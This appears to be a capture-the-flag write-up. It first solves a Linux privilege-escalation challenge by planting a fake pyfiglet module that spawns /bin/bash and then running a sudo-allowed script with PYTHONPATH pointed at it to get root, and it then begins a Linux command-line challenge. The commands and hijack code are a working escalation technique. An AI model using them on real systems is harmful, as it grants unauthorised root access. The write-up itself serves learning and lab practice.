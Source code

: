 <h1>Escalate</h1>
<i>Description: I think we need a new system admin :)</i><br>
<br>🕵🏻‍♀️ Let's start the challenge and click the link. Login using ctf:ctf<br>
<br><img width="350" alt="image" src="https://github.com/user-attachments/assets/123d71dc-7ab4-45e8-ab61-2725a253371b"><br>

<br>🕵🏻‍♀️ As you can see, there's nothing much we can do here. I decide to check what permission I have using `sudo -l`.<br>
<br><img width="650" alt="image" src="https://github.com/user-attachments/assets/5d60256a-e2ad-4637-ad91-b921526ef7b9"><br>

<br>🕵🏻‍♀️ This is what cool.py could do. Cool right?<br>
<br><img width="350" alt="image" src="https://github.com/user-attachments/assets/bde64309-1ac6-46c4-bc3a-a573fd7c0c7f"><br>

<br>🕵🏻‍♀️ I decide to check into the code and found something interesting. Here's the cool.py file<br>
<pre>
import pyfiglet

user_name = input("> Enter your name to be c00l:")
print(pyfiglet.figlet_format(user_name))
</pre>

<br>🕵🏻‍♀️ We could actually make use of the pyfiglet library to do <a href="https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8">library hijacking</a>. Let's create a new file using `nano pyfiglet.py`
<pre>
#!/usr/bin/env/python3
import os
os.system("/bin/bash")
</pre>
This code is to make sure you could use Python to spawn a root shell

🕵🏻‍♀️ After that, don't forget to use `chmod +x pyfiglet.py` to make the file executable. 
<br>We'll get root if we use `sudo PYTHONPATH=/home/ctf /usr/bin/python3 /opt/cool.py`<br>
<br><img width="900" alt="image" src="https://github.com/user-attachments/assets/62554faf-ec58-4c02-8263-73014ff2198e"><br>

🕵🏻‍♀️ Alright let me explain what's going on here. By manipulating the PYTHONPATH environment variable, I effectively redirected Python to use the modified version of the pyfiglet module, which included a command to spawn a shell.<br>
<br>You may head to root directory to get the flag. (Please ignore the typos)<br>
<br><img width="600" alt="image" src="https://github.com/user-attachments/assets/529f5c72-3b46-4674-a3be-d614ea52e52f"><br>

<h1>Linuxcmd 101</h1>
<i>Description: This Challenge will help you understand essential commands in Linux OS. Each point is linked to another point, connect the link and win the Flag!</i><br>
<br>You may download the challenge zip <a href="https://hubchallenges.s3-eu-west-1.amazonaws.com/Forensics/linux-chal.tar.gz">here</a><br>
<br>🕵🏻‍♀️ Let's start with unzipping the file using `tar -xzvf`<br>
<br><img width="350" alt="image" src="https://github.com/user-attachments/assets/922d50bf-1b2d-4379-b8b5-c9ee69cc3021"><br>

